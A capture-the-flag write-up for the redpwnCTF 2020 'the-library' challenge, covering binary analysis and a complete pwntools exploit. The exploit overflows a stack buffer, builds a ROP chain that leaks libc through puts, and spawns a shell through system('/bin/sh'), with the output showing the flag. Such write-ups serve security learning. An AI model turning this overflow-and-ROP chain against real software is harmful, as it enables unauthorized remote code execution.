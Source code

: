 # redpwnCTF 2020

## pwn/the-library

> NotDeGhost
> 
> 424
>
> There's not a lot of useful functions in the binary itself. I wonder where you can get some...
> 
> `nc 2020.redpwnc.tf 31350`
>
> [`the-library.c`](the-library.c) [`libc.so.6`](libc.so.6)
[`the-library`](the-library)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

BOF -> ROP -> leak libc -> ret2main -> shell

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode on the stack, but that's about it for mitigations.  Easy read/write GOT, easy BOF, easy ROP.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  char local_18 [16];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to the library... What\'s your name?");
  read(0,local_18,0x100);
  puts("Hello there: ");
  puts(local_18);
  return 0;
}
```

I still disassemble/decompile even if source included for the following reasons:

1. Source can lie, it's true; at least two 2020 CTFs, the _source_ did not exactly match the binary behavior.  Probably older source, newer binary or vv.  OTOH, at times the remote binary is not the same as the downloaded binary, in that case, perhaps the source is correct.  Anyway, collect as much data as you can.
2. The compiler may interpret the source differently than your head.  This is especially true with stack offsets.
3. I've developed a consistent workflow, _checksec_ -> _Ghidra_ -> _explore a bit_ -> _think about it..._.  I've gotten used to looking at binaries with Ghidra and while source code can vary widely, Ghidra normalizes this somewhat, at least for me, unless Go, Rust, etc... binaries, then it's back to basics, _strings_ -> _objdump_ -> _testing_ -> _googling_ -> _panic_ :-) (Actually Go is doable, you get used to it, Rust is a completely different animal--this is a good thing).
4. I've become very dependent on the Ghidra stack diagrams, esp. for BOF.  Above, I know that the input buffer `local_18` is exactly `0x18` from the return address in the stack.  I also know if there are other variables where they are relative to each other so I can overflow just enough or avoid a canary, etc...

_Moving on..._

This is a simple BOF task, the input buffer is `0x18` bytes from the return address in the stack, and `read` will take up to `0x100` (256) bytes supporting a rather large ROP chain.

There's only one pass, and since ASLR will still obfuscate the location of libc, we'll have to leak that first and then jump back up to main.  With libc location known, we can get a shell.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./the-library')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc.so.6')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31350)
```

Initial setup and find a `pop rdi` gadget from the binary.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendlineafter('name?',payload)

_ = p.recvuntil('Welcome').split(b'Welcome')[0].strip()[-6:]
puts = u64(_ + b'\x00\x00')
baselibc = puts - libc.symbols['puts']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

First pass.  Just overflow the buffer with `0x18` bytes, then using `puts` from the GOT, have it leak it's address, then jump back to `main` for a second pass.

With the `puts` address known and the version of libc provided, computing the base of libc is trivial.


```python
payload  = 0x18 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])

p.sendlineafter('name?',payload)

p.interactive()
```

Final pass.  Again overflow the buffer with `0x18` bytes, but this time call `system` from libc.

> The `p64(pop_rdi + 1)` is actually `ret` (`pop rdi` is 2 bytes, the 2nd is `ret`).  This fixes a stack alignment problem that would otherwise segfault `system`.  Most of the time it is needed, but not always, and in one recent case, `execve` had to be used instead.  See [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) more info as well as links if you want a deeper understanding (it's long, search for _alignment_).

Output:

```
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/the-library/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/redpwnctf2020/the-library/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2020/the-library/the-library'
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
baselibc 0x7f10b1c0a000
[*] Switching to interactive mode

Hello there:
AAAAAAAAAAAAAAAAAAAAAAAA4\x07
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
```
